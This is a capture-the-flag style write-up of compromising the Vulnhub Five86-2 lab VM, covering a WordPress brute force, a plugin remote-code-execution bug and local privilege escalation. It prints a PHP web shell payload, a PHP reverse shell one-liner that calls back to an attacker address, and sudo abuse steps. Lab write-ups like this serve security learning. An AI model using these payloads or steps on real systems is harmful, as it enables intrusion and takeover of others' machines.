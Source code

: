 ```yaml
---
layout: post
title: Vulnhub - Five86 writeup
date: 2019-01-09 8:00 PM
---
```


## Nmap

![](images/five862/nmap.png)

We see that there is only two open port. We'll start our enumeration with the HTTP service.

***

## HTTP

Since we can see that the website is supposed to be running wordpress we'll just add the `IP` to our `/etc/hosts`.

```
192.168.56.146 five86-2
```

![](images/five862/website.png)

I then ran `wpscan` on that website

```bash
➜ wpscan -e u,ap --no-banner --wp-content-dir  wp-content/ --url http://five86-2/
```

![](images/five862/users.png)

Since I had 5 user names I decided to do dictionary attack on those accounts so I made a list named `users.txt` having all the usernames and used rockyou for password list.

![](images/five862/cracked.png)

```
barney:spooky1
stephen:apollo1
```

With the `stephen` account I was able to login into FTP service. I enumerated lots of file using FTP but none of them lead me to anything. So I decided to login as `stephen` in WP but again there was nothing interesting. But when we login as `barney` in WP we see that there are some plugins allowed.

![](images/five862/plugins.png)

If you notice one thing is that only one of them was active so I looked around for any exploit and actually found one [WordPress Plugin Insert or Embed Articulate Content into WordPress - Remote Code Execution](https://www.exploit-db.com/exploits/46981), the only issue in that exploit is that in the end it ask you to visit `wp-admin/uploads/articulate_uploads/poc/index.php?cmd=whoami` but it should be `wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami` notice the `wp-content` in place of `wp-admin` other than that everything should be same.

```bash
echo "<html>hello</html>" > index.html
echo "<?php echo system($_GET['cmd']); ?>" > index.php
zip poc.zip index.html index.php
```
Then upload the zip file and visit `http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami` and you should have the RCE.

![](images/five862/exp.png)

Now we can use this exploit to get a reverse shell. I tried to run `nc` shell command but it didn't worked so I used the following PHP command:

```bash
php -r '$sock=fsockopen("192.168.56.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

![](images/five862/rev.png)

***

## Privilege escalation

Since I have two username and password I tried to `su` into those account and I was succesfully able to change to `stephen` account.

![](images/five862/su-step.png)

I then ran my enumeration script and found out that there was a `suid` present but it can only be run by `peter`. Now after looking around for a while I noticed that `stephen` was in `pcap` group.

![](images/five862/groups.png)

And then in the output of my `enumeration script` I saw that `tcpdump` had some `capabilities`.

![](images/five862/caps.png)

So I decided to run `tcpdump` on the `lo` interface and just see what I could catch.

```bash
timeout 300 tcpdump -i lo -w hack.pcap
```

And then used `FTP` to download the file easily to my system to analyze it.
In that file I saw that there was some `FTP` protocol and it had the name of `paul` so I read that packet conversation and found the password for `paul`

![](images/five862/paul-pass.png)

`paul:esomepasswford`

We are paul but we need to become peter so I again looked around and found out that `paul` is allowed to run `/usr/sbin/service` as `peter` because of `sudo-rights`.

![](images/five862/sudo.png)

I used [`gtfo`](https://github.com/mzfr/gtfo) to search gtfobins for this `service` and found a way we can spawn a shell using it:

![](images/five862/gtfo.png)

We can run `sudo -u peter service ../../bin/sh`

![](images/five862/peter.png)

And then I noticed that `peter` have sudo rights too, he was allowed to run `passwd` as `root`.

![](images/five862/sudo-peter.png)

So I used that to change the password of `root` to `hackerman`.

![](images/five862/change-passwd.png)

And then got the root shell and root flag.

![](images/five862/root.png)

***

Really enjoyed this one, looks like we'll be getting another awesome series from [@DCAU7](https://twitter.com/DCAU7).

Thanks to [@Five86_x](https://twitter.com/Five86_x/) for letting me beta test this.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄

